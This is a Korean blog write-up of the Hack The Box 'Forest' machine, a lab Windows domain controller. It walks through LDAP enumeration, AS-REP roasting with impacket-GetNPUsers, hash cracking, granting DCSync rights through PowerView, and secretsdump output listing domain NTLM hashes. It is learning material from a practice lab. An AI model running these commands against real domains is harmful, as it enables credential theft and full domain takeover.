 ```yaml
---
layout: post
title: Hack The Box - Forest
subtitle: Hack the box Forest machine
category: writeup
thumbnail-img: /assets/img/writeup/HTB/forest/pwned.png
tags:
  [writeup, hackthebox, forest, windows, powerview, bloodhound, dcsync, ldap]
author: Hong
---
```


이번에 HTB의 Forest라는 머신을 풀었는데 굉장히 영양가 높은 머신이었고 여러가지 새로운 것들도 배웠기 때문에 포스팅을 작성한다.

이 머신은 easy 난이도라고는 되어있는데 거의 대부분 처음 경험해보는 내용이었던 나에게는 절대 easy하지 않았다.

# 초기진입

## nmap

우선 nmap의 결과부터.

```bash
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-03-27 01:08:58Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m49s, deviation: 4h02m30s, median: 6m48s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-03-26T18:09:12-07:00
| smb2-time:
|   date: 2025-03-27T01:09:11
|_  start_date: 2025-03-27T01:01:16
```

smb와 ldap이 눈에 들어온다.

smb의 경우 리스트를 보려고 했으나 접속이 안됐다.

ldap으로 변경.

## enum4linux

ldap을 조사할 때 사용하는 툴로써 enum4linux라는 게 있다고 한다.

ldapsearch라는 툴이 이름부터 뭔가 해줄 것 같아서 사용해봤는데 결정적인 유저를 마지막까지 찾아내지 못했다.

enum4linux의 경우 한번에 결정적인 유저까지 찾아냈기 때문에 ldapsearch 보다는 enum4linux가 더 좋은 것 같다.

```bash
enum4lilnux 10.10.10.161

user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

ldapsearch에서는 svc-alfresco라는 유저를 발견하질 못해서 계속 헤맸다.

유저 이름을 알았기 때문에 **impacket-GetNPUsers**라는 툴을 사용해서 Kerberos preauthentication이 설정되어 있지 않은 유저를 찾아낸다.

`impacket-GetNPUsers htb.local/ -dc-ip 10.10.10.161 -usersfile users.txt`

```sh
$krb5asrep$23$svc-alfresco@HTB.LOCAL:93b8c3f3d039482dae56a19dc0a91053$3ddd8d9d301f89dbee8ce4bb022f04ebba5cec410b45aae7ff4e6012e9bfe2f6e13a4aff4dd92108597ba4e27a1f7daebec8d22c4c44eb5a56253fa7c7d83296d879282601f1ca533d7cc4f1cd10ac5224039418981c8a0575f1c909a556344c0007d64eea970f51cc33c8e70117947f4dd32a054cbacfe847532bfea1e3aac49ac93511eebc2318b57901c3dbb181200d62bb710553ea74496c51670a3a8595bbeb58ce1d17599f242685e7e72992c90c6651c1fdd0b742192a09eb004a87d172982fe1d5f0e14e838d2ea6003306a8d205697bce8a685d9e7a1c46f8864820f976bb913248
```

다른 유저들과는 다르게 svc-alfresco의 경우 해쉬값이 나온다.

![hashcat](/assets/img/writeup/HTB/forest/hashcat.png)

찾아보니 18200 모드를 사용하면 크랙킹 할 수 있을 것 같다.

크랙킹하면 **s3rvice** 비밀번호를 획득할 수 있다.

evil-winrm으로 로그인.

# 권한상승

## bloodhound

여기서 또 다른 벽을 느꼈다.

easy 머신임에도 불구하고 bloodhound를 활용해서 풀어야 한다.

bloodhound를 사용하는 방법은 두 가지가 있는데 하나는 sharphound를 활용하는 방법이고 또 다른 방법은 bloodhound-python을 사용하는 방법이다. (pip install bloodhound로 설치가능).

bloodhound를 실행하고 파일을 업로드하면 노드를 볼 수 있다.

![bloodhound](/assets/img/writeup/HTB/forest/bloodhound.png)

1. 먼저 이번에 침입 성공한 svc-alfresco를 검색해 노드를 선택한다.
2. owned로 지정한다.
3. shotest paths에서 더 높은 value의 타겟을 찾아본다.

그러면 굉장히 상관관계가 얽혀있는 꽤 복잡한 그래프가 나타난다.

이 그래프를 볼 줄 몰라서 많이 헤맸는데 그래프를 잘 보면 genericall 이라던가 DACL write라던가 핵심적인 키워드들이 써있다.

genericall의 경우 모든 권한을 가지고 있기 때문에 내가 소유했다고 봐도 무방한 듯 하다.

DACL write 권한이 중요한데, 이 권한이 있으면 액세스 권한을 설정 할 수 있다. 이번 머신의 메인 도메인 바로 전 노드인 Exchange Windows Permissions 그룹이 메인 도메인에 대하여 이 권한을 가지고 있기 때문에 DcSync 권한을 유저에 부여할 수 있는 취약점이 존재한다.

## DcSync

easy 머신에서 DcSync까지 나와서 당황했지만 회사에서 본 적이 있었다.

먼저 권한을 부여할 새로운 유저를 만든다.

`net user hong hongtest1234 /add /domain`

그 다음 유저를 Exchange Windows Permissions 그룹에 추가한다.

`net group "Exchange Windows Permissions" /add hong `

(이런것도 svc-alfresco 유저가 어카운트 관리 그룹의 멤버였기에 가능했다.)

그리고 DcSync 권한을 부여하기 위해서 PowerView.ps1을 사용한다.

```powershell
$SecPassword = ConvertTo-SecureString 'hongtest1234'-AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\hong', $SecPassword)
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity hong -Rights DCSync -Credential $Cred -Verbose
```

이렇게 하면 새로만든 유저에 DcSync의 권한이 부여되기 때문에 나머지는 칼리 머신에서 악용하기만 하면 된다.

```bash
secretsdump.py htb.local/hong:hongtest1234@10.10.10.161
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::...
```

관리자의 해쉬 정보를 얻을 수 있다. DcSync는 언제봐도 놀랍다.

evil-winrm으로 관리자 해쉬를 사용해 로그인 하면 root 플래그도 얻을 수 있다.

# 느낀점

이번 머신이 특히 어려웠던 점은 처음 써보는 툴이 많았기 때문이다.

enum4linux, bloodhound, powerview도 존재는 알아도 제대로 써본적은 없는 툴들이었다.

이번에 어느정도 사용법을 익혔기 때문에 다음에 비슷한 문제는 풀 수 있지 않을까? 싶다.

굉장히 유익한 머신이었다.
